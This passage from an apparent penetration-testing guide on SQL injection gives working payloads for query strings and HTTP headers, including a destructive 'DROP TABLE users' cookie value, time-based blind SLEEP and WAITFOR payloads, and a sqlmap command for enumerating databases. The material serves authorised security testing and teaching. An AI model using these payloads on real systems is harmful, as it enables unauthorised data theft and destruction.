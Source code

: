 **Example:**
```
GET /search?q=test HTTP/1.1

Change to:
GET /search?q=test' HTTP/1.1
GET /search?q=test' OR '1'='1 HTTP/1.1
```

### 5.5: Header-Based SQL Injection

Test in Burp Suite by modifying headers:

```
User-Agent: Mozilla/5.0' OR '1'='1
X-Forwarded-For: 127.0.0.1' OR '1'='1
Referer: http://target.com' OR '1'='1
Cookie: session=abc123'; DROP TABLE users--
```

### 5.6: Time-Based Blind SQL Injection

**Manual test:**
```
# Original
https://target.com/product?id=1

# Time-based test (should delay 5 seconds if vulnerable)
https://target.com/product?id=1' AND SLEEP(5)--
https://target.com/product?id=1'; WAITFOR DELAY '0:0:5'--
```

**Use browser's Network tab to measure response time.**

---

## 💥 Phase 6: Exploitation

### Goal
Extract data from confirmed SQL injection vulnerabilities.

### 6.1: Enumerate Databases

```bash
sqlmap -u "https://target.com/product?id=1" --dbs --batch
```

**Expected Output:**
```
available databases [3]:
[*] information_schema
[*] mysql
[*] webapp_db
```
